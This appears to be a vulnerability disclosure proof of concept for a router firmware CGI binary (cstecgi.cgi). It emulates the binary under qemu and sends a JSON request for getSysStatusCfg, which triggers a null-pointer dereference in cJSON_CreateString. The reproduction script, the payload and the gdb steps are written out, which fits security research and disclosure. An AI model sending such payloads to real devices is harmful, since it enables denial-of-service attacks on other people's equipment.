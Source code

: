 

## poc

### getPortLinkStaus.sh
```bash
#!/bin/bash
#! `cat /proc/rtl865x/port_status | grep Link > /tmp/port_status` failed
# `v0 = fopen64("/tmp/port_status", "r");` makes v0 as null
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_410F78.cgi  < getPortLinkStaus.json
```

### getPortLinkStaus.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

## Reproduce
```bash
./getPortLinkStaus.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

When `fopen("/tmp/port_status")` failed, `getPortLinkStatus` will return a null pointer.
![alt text](image-9.png)

Tracing execution path from this point, we can trace that the null pointer is passed into `cJSON_CreateString` function.

![alt text](image-8.png)

![alt text](image-10.png)

In the `cJSON_CreateString`, this null pointer will be dereferenced.

![alt text](image-11.png)


